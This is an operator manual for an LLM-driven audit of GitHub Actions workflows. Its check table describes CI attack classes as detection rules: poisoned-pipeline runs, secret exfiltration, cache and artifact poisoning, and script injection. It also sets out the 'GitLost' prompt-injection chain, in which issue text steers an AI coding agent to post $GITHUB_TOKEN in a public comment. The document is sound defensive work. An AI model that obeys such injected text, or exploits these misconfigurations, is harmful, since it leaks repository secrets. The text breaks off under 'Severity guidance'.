


# ⚙️ GitHub Actions Audit Scans — Operator Manual

This document is the operator-facing reference for the Vibe Coder's
LLM-driven GitHub Actions audit. The intent is documented in the parent
issue and the sub-issues that built it: the template and prompt
, the best-practices `github-actions` bucket retirement,
and this manual.

The GitHub Actions audit is **template #4 of the idle-task framework** —
the generic mechanism for "things the worker does when no claimable work
exists". The framework owns filing, dedup, label discipline, and claim
routing; this document covers the audit-specific behaviour layered on
top. See [`docs/IDLE-TASK-FRAMEWORK.md`](IDLE-TASK-FRAMEWORK.md) for the
framework manual and the lifecycle diagram common to every template, and
[`docs/BEST-PRACTICES-SCAN.md`](BEST-PRACTICES-SCAN.md) for the sibling
template that this manual mirrors structurally.

For the **agent-facing** rules (label policy, suppression syntax,
trigger summary) see
[DESIGN-PRINCIPLES.md → GitHub Actions audit scans](../DESIGN-PRINCIPLES.md#github-actions-audit-scans-template-4).

For a point-in-time review of **this repository's own** workflows against an
external best-practices guide — including the two blind spots this scan has by
design (repository settings it cannot read, and previously-remediated findings
that silently regressed) — see
`docs/audits/github-actions-best-practices-gap-analysis-4377.md`.

## Why a dedicated weekly scan

GitHub Actions review used to be the `github-actions` best-practices
bucket. promoted it to its own weekly template because:

- **Workflow risk is supply-chain risk.** The 2025–2026 wave of CI
  attacks (tj-actions/changed-files OIDC theft, the TanStack CI hijack
  with forged provenance, the Shai-Hulud npm-credential worm) all
  landed through workflow misconfiguration, so the surface deserves a
  cadence of its own rather than competing for a daily bucket slot.
- **The checks are workflow-specific.** SHA-pinning, `permissions:`
  minimisation, `pull_request_target` justification, stale action
  majors, EOL runtimes, and duplicate / obsolete steps are all GitHub
  Actions concerns — they do not belong in an application-language
  bucket.
- **A weekly cadence matches how fast workflows change.** A repo's
  workflows are touched far less often than its application code, so a
  daily scan would mostly re-detect the same findings. `cooldownHours:
  168` caps the scan to once per week per repo.

The daily best-practices scan **no longer picks the `github-actions`
bucket** — the bucket guide was deleted and the bucket dropped from the
SLOC-weighted draw. See
[`docs/BEST-PRACTICES-SCAN.md`](BEST-PRACTICES-SCAN.md#buckets--per-language-scope).

## Design intent — single-scope, LLM-only review

The GitHub Actions audit is an **evidence-backed static review**
performed entirely by Claude. The orchestrating prompt at
[`prompts/github_actions_audit/`](../prompts/github_actions_audit/)
instructs Claude to read only the repo's GitHub Actions material — every
`.github/workflows/*.yml` / `*.yaml` file plus composite actions under
`.github/actions/` — apply the check catalogue, and file each surviving
finding as its own GitHub issue.

**Single-scope.** The scan ignores every other surface of the repo
(application code, infrastructure templates, documentation). Even if it
spots a real bug in application code, it drops it — that belongs to a
different scan.

**No linters or workflow runners are invoked.** The scan is read-only
static review. It must not execute repo code or workflow steps — no
`act`, `bash`, `node`, `deno run`, `npm test`, etc. The only `gh` calls
it makes are `gh issue list` (dedup), `gh label create` (defensive), and
`gh issue create` (file a finding). The actionlint-in-CI pre-check
(below) is a *configuration* check — it inspects the workflows to see
whether actionlint is wired into CI; it does not run actionlint.

## Check coverage

Phase 2 of the prompt walks every workflow and composite action against
the check catalogue. A finding is only valid when Claude can cite a
specific file/line-range in the current source tree.

| Group | Checks | Summary |
| ----- | ------ | ------- |
| **Base** (#1–#8) | SHA-pinning, minimal `permissions:`, no secrets in logs, concurrency groups, `timeout-minutes`, **privileged-trigger** justification (#6 — `pull_request_target`, `workflow_run`, `issue_comment`, `issues`, `discussion`, `discussion_comment`, `pull_request_review`, `pull_request_review_comment`), `set -euo pipefail` in bash, reusable workflows over copy-paste. | Core workflow hygiene. |
| **Supply-chain hardening** (#9–#15,) | `id-token: write` scoped to publish jobs, **no third-party Actions or checkout-of-untrusted-ref on a privileged trigger** (#10 — generalised in v3 beyond `pull_request_target` to the same privileged-trigger family as #6,; extended to `pull_request_review` / `pull_request_review_comment` in v10,), OIDC trusted publishing over long-lived secrets, no org-wide secrets in PR workflows, reusable workflows pinned by SHA, provenance as defence-in-depth (not a sole gate), coding-agent calls treated as build-time code execution. | The 2025–2026 CI-attack mitigations. |
| **`secrets: inherit` on a reusable-workflow call** (#24,) | A `uses:` call to a reusable workflow that passes `secrets: inherit` instead of naming the required secrets. `severity:medium` for a same-repo callee; `severity:high` when the callee is cross-repo and pinned to a tag rather than a SHA. | Over-broad secret passing violates least privilege — the callee receives every secret of the caller. Fix: replace `secrets: inherit` with an explicit per-secret allowlist; pair with a SHA pin when the callee is cross-repo. |
| **Container / Docker image pinned to a mutable tag** (#25,) | A container image pulled by tag rather than a `@sha256:` digest in `uses: docker://…`, a job-level `container.image`, a `services.*.image` entry, or a `FROM …` line in a `Dockerfile` under `.github/actions/**`. `severity:medium` base band; `severity:high` when the image runs with secrets under a privileged trigger. First-party `ghcr.io/stsoftwareau/*` images follow the same carve-out as `stSoftwareAU/*` actions. | Images carry the same mutable-tag supply-chain risk as actions — a swapped image executes attacker code with the job's secrets and token. Fix (v17): pin to the `@sha256:` digest **and keep an explicit release tag on the pin** (`postgres:16.4@sha256:…`) so the image is immutable *and* trackable — a digest with the tag moved into a comment is check #35. |
| **Untrackable container-image pin — bare digest, no tag** (#35 in v17,) | A container image written `<image>@sha256:<digest>` with **no** tag component, on the same four surfaces as #25. The first-party carve-out does **not** apply. `severity:medium` base band; `severity:high` when the image runs with secrets under a privileged trigger. A pin that already carries a release tag beside its digest is not flagged — that is the target shape. | The pin is immutable, so #25 has nothing to say and the SHA-pin pre-filer is satisfied — but every updater (Renovate's `github-actions` manager, Dependabot's `docker` ecosystem) resolves the **tag** and then rewrites the digest beside it, so a tagless digest is invisible to them and freezes at whatever the tag resolved to on the day it was pinned. Motivating case: private-repo-14's `.github/workflows/semgrep.yml` pinned `semgrep/semgrep@sha256:…`, frozen at the `latest` of 2026-05-22 while upstream shipped v1.172.0. Fix: convert to `<image>:<X.Y.Z>@sha256:<digest>`; per the YAML fix rides a normal per-repo PR and the repo's own Renovate bumps it from then on. |
| **Materially stale container-image digest** (#36 in v17,) | A digest-pinned image the **tree itself** shows is behind, on one of two groundable signals: an *aged snapshot of a floating channel* (`:latest`/`:stable`/`:main`/`:master`/`:edge`/`:nightly`/`:dev` beside the digest, or a capture comment naming one, with a recorded capture date more than 180 days old), or *in-repo drift* (the same image pinned at two different versions/digests across the repo). Neither signal present → the candidate is dropped. #35 takes precedence when one pin satisfies both. `severity:medium`; `severity:high` with secrets under a privileged trigger. | The audit has no network access (Hard Constraint 2), so freshness is asserted only from evidence in the tree — never a guessed upstream version. A digest captured from a moving reference is many releases behind by construction once it has aged; a newer pin of the same image elsewhere in the repo proves the older one is stale. Fix: re-pin to the current release as `<image>:<X.Y.Z>@sha256:<digest>` and leave later bumps to the repo's own updater. |
| **PWN-request — untrusted PR head built/executed with secrets** (#26, SITF T-C003) | A privileged-trigger workflow (#6 family) checks out the untrusted PR head (`github.event.pull_request.head.sha`/`.ref`, `workflow_run.head_sha`/`.head_branch`, `github.head_ref`) **without** an author/association guard **and** then builds/installs/executes that code (`npm ci`/`npm run build`, `cargo build`, `make`, `deno run`, a script from the checked-out tree) while secrets or a write token are in scope. `severity:high`. | The classic poisoned-pipeline RCE: attacker-authored code runs with default-branch privileges. Requires all three signals — distinct from #10, which fires on the untrusted checkout alone. Fix: split the build into a non-privileged secret-free `pull_request` job and keep privileged follow-up on trusted data. |
| **Secret exfiltration** (#27, SITF T-C005/T-C015) | A step that serialises, prints, or persists secret values where they can be read — `${{ toJson(secrets) }}` dumps, a specific secret echoed into logs / `$GITHUB_OUTPUT` / `set -x` traces, or a secret-bearing file (`.npmrc`, `.env`, kubeconfig) written under an `upload-artifact` path. `severity:high`. | GitHub's log masking is best-effort — an encoded or artifact-written secret bypasses it. Fix: pass secrets only via `env:`/`with:`, scope each to one step, exclude secret files from artifacts, and remove `toJson(secrets)` dumps. |
| **Action cache poisoning** (#28, SITF T-C007) | A cache *write* (`actions/cache`, `actions/cache/save`, the `cache:` input of `setup-node`/`setup-python`/`setup-java`/`setup-go`, or `docker/build-push-action` `cache-to: type=gha`) reachable from a fork-reachable `pull_request` (no fork guard) or a #6 privileged trigger, where a later trusted run consumes the entry. `severity:medium`. | Actions cache falls through to the default branch, so a poisoned entry seeded from a fork executes in a trusted context. Fix: restrict cache writes to trusted triggers and use `actions/cache/restore` (read-only) on PR jobs. |
| **AI coding-action hardening** (#29, Wiz Pt 2) | An AI coding action (`anthropics/claude-code-action`, `google-github-actions/run-gemini-cli`, OpenAI/codex actions) invoked with a secret-leaking verbosity/debug flag (`show_full_output: true`, `gemini_debug: true`, `debug`/`verbose`) **or** over-broad input trust (reachable from a bot/`dependabot[bot]` or external contributor with no author/association guard, missing `allow-bot-users: false`). `severity:high` with secrets/write scope under an untrusted trigger; `severity:medium` for a limited-exposure gap. | The agent runs with the job's full scope and is steered by attacker-authored inputs. Mirrors Wiz's *Input Control* + *Blast-radius* lens. Fix: turn off debug flags on secret-bearing jobs, gate behind an author/association guard, set the trusted-actor allowlist, and scope `permissions:`/`secrets:`. |
| **Script injection** (#22,) | An attacker-controllable `${{ github.* }}` expression (PR title/body, `head_ref`, issue/comment/review body, commit message) interpolated directly into a shell `run:` step. `severity:high`. | GitHub's #1 hardening item — direct RCE. Fix: route through an `env:` var and reference `"$VAR"`. |
| **Artifact poisoning** (#23 in v4,) | A privileged-trigger workflow (`workflow_run` and the rest of the #6 family) downloads an artifact keyed on `github.event.workflow_run.id` (or via `actions/download-artifact` / `dawidd6/action-download-artifact` / a manual `gh run download` / `curl …/actions/artifacts/…`) and then **extracts, executes, or trusts** its contents — running an uploaded script, sourcing/`eval`-ing a file, feeding it to `$GITHUB_ENV`/`$GITHUB_PATH`, or passing the bytes to `actions/github-script`. `severity:high`. | The classic `workflow_run` RCE chain: an unprivileged `pull_request` workflow uploads attacker-controlled bytes; the privileged consumer holds default-branch secrets and a write token. Fix: treat the artifact as untrusted data — quarantine, never execute, never write to `$GITHUB_ENV`/`$GITHUB_PATH`, and keep secrets out of the consuming job. |
| **Checkout persists credentials** (native pre-filer) | An `actions/checkout` step without `persist-credentials: false` in a job that does not push (build/test/lint/package). `severity:medium`. Filed deterministically by the native `checkout_persist_credentials_scanner.ts` pre-filer (`BP-PERSIST-CREDS-…`) — see the Pre-filers section. | Default writes `GITHUB_TOKEN` into `.git/config`; any later step can read it. The native pre-filer skips jobs that push or fetch submodules (precision over recall); the nuanced hedge cases stay with the LLM. Fix: add `with: { persist-credentials: false }`. |
| **Broad artefact upload** (#30 in v9,; native pre-filer) | An `actions/upload-artifact` step whose `with.path` is the whole workspace — `.`, `./`, `${{ github.workspace }}` (optional trailing slash), or a bare `*`/`**` glob. `severity:low` baseline; `severity:medium` when the job has secrets in scope or the workflow uses a privileged trigger. The decidable core is filed deterministically by the native `artifact_upload_scanner.ts` pre-filer (`BP-ARTIFACT-UPLOAD-…`) — see the Pre-filers section. | Uploads the entire checkout — `.git/` (with the persisted `GITHUB_TOKEN`), `.env`/build secrets, and all source — to an artefact any collaborator can download. Corgea checklist §9. The native pre-filer flags only literal whole-workspace tokens (precision over recall); the "otherwise unscoped" long tail stays with the LLM. Fix: upload only the specific build-output path (`path: dist/`). |
| **AI-action prompt injection — GitLost sink** (#31 in v11,; native pre-filer) | Untrusted `github.event.*` text (issue/comment body/title, PR title/body, review body, `head_ref`) reaching an **AI coding-agent action**'s `with:` inputs (`prompt:`, `direct_prompt:`, `args:`) — the agentic counterpart to the `run:` script-injection sink (#22). `severity:high`. The decidable explicit-`with:` core is filed deterministically by the native `run_injection_scanner.ts` pre-filer (`BP-AI-INJECTION-…`); the implicit event-context / laundered tail stays with the LLM. | Untrusted event text becomes the agent's instructions — the GitLost vector: an attacker embeds "print `$GITHUB_TOKEN` as a comment" in an issue body. Fix: never pass raw `github.event.*` into an agent prompt; gate behind an author/association guard, withhold secrets, and scope `GITHUB_TOKEN`. |
| **End-to-end GitLost chain + public-comment exfil** (#32 in v11,) | A single **correlated** finding when a privileged trigger (#6 family) + an AI coding-agent step + untrusted `github.event.*` text + a public-write token (`issues`/`pull-requests`/`contents: write`, or the inherited broad default) co-occur, plus the public-comment exfil sink (`gh issue comment`, `createComment`/`updateIssue`, the agent's own comment mode). `severity:high`. | The full GitLost data-leak chain: attacker issue text steers the agent to read a secret and write it back through a world-readable comment. Fix: break any one link (drop the trigger, guard the step, remove the public-write token, or isolate untrusted input to a minimal-privilege workflow). |
| **CI quality workflow skips milestone PRs** (#33 in v12,; native pre-filer) | A test/lint/scan workflow whose `pull_request` branch filter matches none of the milestone feature branches (`milestone/<slug>`,) — e.g. `branches: [Develop, main]`, or a `branches-ignore:` list excluding `milestone/*`. A `pull_request` trigger with no branch filter is not flagged. `severity:medium`. The decidable single-filter core is filed deterministically by the native `milestone_branch_filter_scanner.ts` pre-filer (`BP-MILESTONE-FILTER-…`); the judgement tail (matrix/reusable-workflow reroutes) stays with the LLM. | Milestone sub-issue PRs target a shared `milestone/<name>` branch, so with this filter the gate never runs on them — they merge unchecked, caught only by the final rollup PR into the default branch. Per isolation the fix rides a normal per-repo worker PR: add `milestone/*` to the `pull_request.branches` filter. |
| **Stale per-repo gitleaks copy** (Issue #598, part of #566; native pre-filer only) | A committed `gitleaks.yml` that has drifted from the canonical template: a `pull_request.branches` filter matching no `milestone/<slug>` branch, a tag-pinned or out-of-date `gitleaks/gitleaks-action` SHA, no licence-less gitleaks CLI fallback, or no `pull_request` trigger at all. `severity:medium` each. Filed deterministically by the native `gitleaks_drift_scanner.ts` pre-filer (`BP-GITLEAKS-…`) — see the Pre-filers section; there is no LLM check for it. | The workflow audit detects gitleaks by pattern, so presence alone scores as covered — a months-old copy with `branches: ["*"]` and `gitleaks-action@v2` passes while scanning almost nothing. Each repo keeps its own copy per isolation, so drift detection is the only thing keeping them current. Fix: refresh the copy to the canonical shape; the YAML edit rides a normal per-repo worker PR. |
| **Gitleaks never reported on a recent PR** (Issue #601, part of #566; native pre-filer only) | A repo that commits a gitleaks workflow but where no gitleaks check run reported on any of the most recent closed pull requests sampled — a `skipped` conclusion counts as not-reported. One `severity:medium` `BP-GITLEAKS-NOT-OBSERVED` finding per repo, filed deterministically by the native `gitleaks_pr_coverage_scanner.ts` pre-filer — see the Pre-filers section; there is no LLM check for it. | The row above asks whether the committed copy is current; this asks whether it ever ran. Actions disabled for the repo, the workflow disabled in the Actions UI, a branch filter missing the PRs' base, an `if:` that never fires, or a YAML error that stops registration all read as "present" to the file-content audit. The finding names the sampled PRs and the usual causes so the gap is diagnosable. Fix: correct the cause and confirm the check appears on the next PR. |
| **Unpinned `run:`-level package install** (split out of; native pre-filer only) | A `run:` step installing a third-party package with no exact version — `npm install -g <pkg>`, `npx --yes <pkg>`, `gem install <pkg>` without an exact `-v`. Wrapper prefixes (`sudo`, `env`, `VAR=value`), flags before the subcommand (`npm --global install <pkg>`), and backslash line continuations are normalised away first. `severity:medium`. Filed deterministically by the native `ci_install_pin_scanner.ts` pre-filer (`BP-CI-INSTALL-PIN-…`) — see the Pre-filers section; there is no LLM check for it. | `action_pin_scanner.ts` only inspects `uses:`, so these installs sat outside every native pre-filer — and outside the dependency quarantine, which covers manifests only. The build resolves whatever the registry serves at run time, so a hijacked release executes on the runner with zero embargo (was found by the LLM `security-scan` template, never deterministically). Fix: pin the exact version and add a Renovate `customManagers` entry — not a blanket `--ignore-scripts`. |
| **Stale action majors** (#16, ) | An action pinned to a tag/major behind the catalogue's latest known major. **v13 extends this to SHA pins** — the pin is mapped to its major via the trailing version comment or the catalogue, and flagged when behind (the candidate is dropped when the major cannot be resolved). One finding per action per repo. | "Newer major exists" — distinct from #1. |
| **SHA-pinned action on a deprecated Actions runtime** (#34 in v13,) | A `uses: <owner>/<action>@<sha>` whose resolved `runs.using` runner is a deprecated Actions runtime — `node12`, `node16`, `node20` (list maintained in the prompt). The runtime is resolved from the pin's version comment / catalogue runner notes / an in-tree `action.yml`; unresolvable candidates are dropped. Distinct from #16 (behind the latest major) and #17 (declared runtime *input*). `severity:medium`. Deduped against the CI-annotation pre-filer's `BP-RUNNER-<action>-<runtime>` so the two never double-file. | A latest-major SHA-pinned action can still run on a deprecated runtime (motivating case: SHA-pinned `actions/checkout` v4.2.2 / `actions/setup-node` on node20, private-repo-5 /). Emits CI deprecation warnings today, hard-breaks at runtime removal. Fix preserves supply-chain policy: bump to a major on a supported runner, **keep the SHA pin**, honour the 24h quarantine (chose setup-node v6.4.0). Deno repos lead with a `denoland/setup-deno` migration. This check is the **static** half of the deprecated-runtime problem; its **runtime** complement is the `workflow-annotation-scan` idle task, which reports the same deprecations when they surface as live workflow-run annotations the static resolve misses. Both are **version-agnostic** — the deprecated-runtime list is data, never a hardcoded "node20 check". |
| **EOL / soon-EOL runtimes** (#17,) | A `node-version` / `python-version` / `java-version` / `go-version` the EOL runtimes table marks as EOL or EOL-soon. | e.g. Node 20 force-upgraded to 24 on 2026-06-02. |
| **Deprecated / archived actions** (#18, /) | A catalogued action marked deprecated (upstream archived or maintainer-EOL). Advisory — `severity:low`. | Names the call-site, archived date, and replacement. |
| **Duplicate logical check, in-file** (#19,) | The same `uses:` action or `run:` recipe duplicated within a single workflow file. Advisory — `severity:low`. | Concrete keep/delete fix. |
| **Duplicate logical check, cross-file** (#20,) | The same logical check duplicated across two or more workflow files. Advisory — `severity:low`. | Cross-file only; complements #8 and #19. |
| **Obsolete / dead refs** (#21,) | A step referencing a script, file, job, or local action that no longer exists. Advisory — `severity:low`. | Delete or repoint. |

### Privileged-trigger family (#6 and #10,)

Checks #6 and #10 used to name `pull_request_target` only. From v3 of the
prompt they apply to the full **privileged-trigger
family** — any workflow `on:` event that runs with write tokens and
access to repo secrets in a context an attacker can influence:

| Trigger | Why it is privileged |
| ------- | -------------------- |
| `pull_request_target` | Runs on PR code with default-branch privileges and full secrets. The classic privilege-escalation surface. |
| `workflow_run` | Runs after a triggering workflow completes, with the **default-branch** `GITHUB_TOKEN` and secrets. Basis of the artifact-poisoning RCE chain — a malicious upload from a PR-context run is consumed by a default-branch-context run. |
| `issue_comment` | Runs with write tokens; routinely abused by checking out PR-controlled refs or executing comment-body content. |
| `issues` | Runs with write tokens on issue-payload data an attacker can author. |
| `discussion`, `discussion_comment` | Same risk profile as the issue triggers — attacker-authored payload reaches a privileged runner context. |
| `pull_request_review`, `pull_request_review_comment` (v10,) | Run with the same secrets + write `GITHUB_TOKEN` and carry an attacker-influenced review body (`github.event.review.body`). |

What the two checks flag under this family:

- **#6 — Privileged trigger only when required.** A privileged-trigger
  workflow without a justification comment in the workflow header
  explaining why the privileged trigger is needed and which
  attacker-influenced inputs are explicitly not trusted is filed at
  **`severity:medium`**.
- **#10 — No third-party Actions or checkout-of-untrusted-ref on a
  privileged trigger.** Filed at **`severity:high`**:
  - Any third-party Action (not `actions/*` or `stSoftwareAU/*`)
    invoked from a privileged-trigger workflow.
  - Any `actions/checkout` (or equivalent) that checks out an
    attacker-controllable ref under a privileged trigger — e.g.
    `github.event.pull_request.head.ref`,
    `github.event.workflow_run.head_branch`/`.head_sha`, a comment
    body, or another PR-controlled value — without a justification
    comment and an explicit author/association guard
    (`github.event.issue.author_association == 'OWNER'`,
    `github.event.workflow_run.event == 'push'` with head=base, etc.).
  - Any `run:` step that executes content from such a ref (e.g. a
    script under the PR head) without the same guard.

The privileged-trigger family is tightly coupled to two other RCE
classes:

- **Script injection (#22).** Every interpolation of an
  attacker-controllable `${{ github.* }}` field into a `run:` step
  under one of these triggers is a direct-RCE path. #22 catches it at
  `severity:high` regardless of trigger; the privileged-trigger family
  makes the privilege escalation explicit when the attacker also
  controls the ref or the action selection.
- **Artifact poisoning (#23 in v4,).** A privileged
  consumer that downloads an artifact produced by an unprivileged
  upstream run and then extracts, executes, or trusts its contents is
  the canonical `workflow_run` hazard. The check (filed at
  `severity:high`) requires both a download keyed on
  `github.event.workflow_run.id` (or another untrusted-run key) and a
  concrete consume-as-code line — extraction-and-run, source/eval,
  `$GITHUB_ENV`/`$GITHUB_PATH` write, or `actions/github-script` with
  artifact bytes — before filing. See the prompt's check #23 catalogue
  for the full pattern list and the quarantine-style suggested fix.

The **Deno-coordination** rule applies to the stale-action
(#16) and EOL-runtime (#17) checks: when the repo is a Deno repo (root
holds any of `deno.json`, `deno.jsonc`, or `deno.lock`) and the offending
step is Node-specific, the suggested fix leads with migrating to Deno
tooling (`denoland/setup-deno` + `deno run` / `deno test`) rather than
blindly bumping the Node major; a straight major bump is offered only as
a fallback for genuinely Node-only repos.

## Idle trigger



The flowchart below summarises the same flow as a decision tree.

```mermaid
flowchart TD
    classDef gate fill:#fef3c7,stroke:#b45309,color:#1f2937;
    classDef phase fill:#dbeafe,stroke:#1d4ed8,color:#1f2937;
    classDef output fill:#dcfce7,stroke:#15803d,color:#1f2937;

    Idle[Idle trigger<br/>run_core: nothing claimable]
    Idle --> Pick{1/18 RNG over the<br/>registered idle-task templates}
    Pick -- github-actions-audit --> FileWrapper[File wrapper issue<br/>title: 'Run a GitHub Actions audit'<br/>label: idle-task<br/>no milestone — skipMilestone: true]:::output
    FileWrapper --> Claim[Next iteration<br/>claims the idle-task issue]
    Claim --> Ensure[Ensure `github-actions-audit` label exists]:::phase
    Ensure --> Before[Snapshot 1 — list open<br/>`github-actions-audit` issues BEFORE]:::phase
    Before --> Lint{actionlint invoked in CI?}
    class Pick,Lint gate;
    Lint -- yes --> Runner
    Lint -- no --> FileLinter[File BP-LINTER-github-actions<br/>severity:high — counts to 6-cap]:::output
    FileLinter --> Runner[Runner-deprecation scan]:::phase
    Runner --> PreRunner[File surviving BP-RUNNER-… findings<br/>one issue each]:::output
    PreRunner --> Native[Native scanners:<br/>SHA-pin, permissions, script-injection, trigger,<br/>persist-credentials, artefact-upload, milestone-filter,<br/>gitleaks-drift, gitleaks-PR-coverage]:::phase
    Native --> PreNative[File surviving BP-SHA-PIN-… /<br/>BP-PERMISSIONS-… / BP-INJECTION-… / BP-TRIGGER-… /<br/>BP-PERSIST-CREDS-… / BP-ARTIFACT-UPLOAD-… /<br/>BP-MILESTONE-FILTER-… / BP-GITLEAKS-… /<br/>BP-CI-INSTALL-PIN-… findings]:::output
    PreNative --> Run[Invoke Claude<br/>read-only static review<br/>known-open = pre-filed + existing]:::phase
    Run --> Cap[Triage — drop unbacked,<br/>dedup, suppress, cap at 6<br/>high > medium > low]:::phase
    Cap --> FileFindings[Phase 4 — gh issue create<br/>labels: github-actions-audit, severity:&lt;level&gt;]:::phase
    FileFindings --> After[Snapshot 2 — list open<br/>`github-actions-audit` issues AFTER]:::phase
    After --> Diff[Template diff:<br/>AFTER − BEFORE = newly filed]:::output
    Diff --> Close[Close wrapper with summary<br/>'no findings' OR<br/>'GitHub Actions audit complete. Filed N issues: …'<br/>never raises a PR]:::output
```



## Wrapper issue layout

The wrapper issue is **human-style** — no hidden marker,
no parameters block. Anyone can paste the same prompt into a fresh issue
with the `idle-task` label and the worker will run it identically.

- **Title:** the literal string `Run a GitHub Actions audit`. Dispatch
  matches the title to
  [`githubActionsAuditTemplate.buildIssueTitle(repo)`](../worker/deno/lib/idle_task_templates/github_actions_audit_template.ts).
- **Body:** the latest `prompts/github_actions_audit/` template with the
  five placeholders substituted at file time — `{{SUPPRESSED_IDS}}`,
  `{{KNOWN_OPEN_FINDING_IDS}}` and `{{OPEN_ISSUE_TITLES}}` (all render as
  `(none)` on the wrapper itself; both dedup lists are rebuilt from live
  issues and the pre-filers at claim time, **repo-wide and label-blind** —
  see
  [Cross-label dedup](IDLE-TASK-FRAMEWORK.md#cross-label-dedup--the-open-issue-title-list)
  for the bounds, the loud `TRUNCATED` log, and the silent-skip rule), plus
  the `{{ACTIONS_CATALOGUE_TABLE}}` and `{{EOL_RUNTIMES_TABLE}}` reference
  tables rendered from the foundation catalogue.
- **Body fingerprint:** the prompt's H1 begins `# GitHub Actions
  Audit …`, matched by `GITHUB_ACTIONS_AUDIT_BODY_FINGERPRINT` so
  dispatch recognises the wrapper even if the title was edited (body-fingerprint dispatch).
- **Label:** the canonical `idle-task` label. No workflow labels.
- **No milestone** — the template sets `skipMilestone: true`, so the
  wrapper never gates a milestone-merge PR.

## Cadence — once per week per repo

The template sets `cooldownHours: 168`, so a given repo's workflows are
audited **at most once per week**. The per-repo cooldown gate
(`worker/deno/lib/idle_task_cooldown_gate.ts`) keys the window off the
`createdAt` of the most recent wrapper or finding the template produced
in that repo, so a fast-failing scan still counts towards the window. A
weekly sweep deliberately runs less often than the framework default
(24h) — workflows change far less often than application code.

## Issue label scheme

Filed GitHub Actions audit issues carry exactly two labels — no
operational/workflow label is ever added.

| Label | Allowed values | Meaning |
| ----- | -------------- | ------- |
| `github-actions-audit` | (constant) | Always present; used by the before/after snapshot query. The finding-id dedup and known-open look-ups are repo-wide (Issue #539) and do not filter on it. The template seeds the label on first use (it is not seeded elsewhere). |
| `severity:<level>` | `severity:high`, `severity:medium`, `severity:low` | Exactly one per issue. |

Unlike the best-practices scan there is **no `lang:<bucket>` label** —
the scan is single-scope, so a single `github-actions-audit` label
scopes all findings.

Operational labels (`planning`, `work-on`, `top-priority`,
`low-priority`, `failed`, `failed-once`, `needs-human`, `best-model`,
`question`, `refine-issue`) are **never** applied by the scanner. The
canonical pickup-priority order is `top-priority` > `work-on` >
`low-priority` > `idle-task`; `idle-task` is the only label the Vibe
Coder may self-apply.
[`label_security.ts`](../worker/deno/lib/label_security.ts) strips any
operational label added by the worker on the next scan, so an accidental
operational label cannot persist.

### Severity guidance

- **`severity:high`** — active supply-chain or privilege-escalation risk
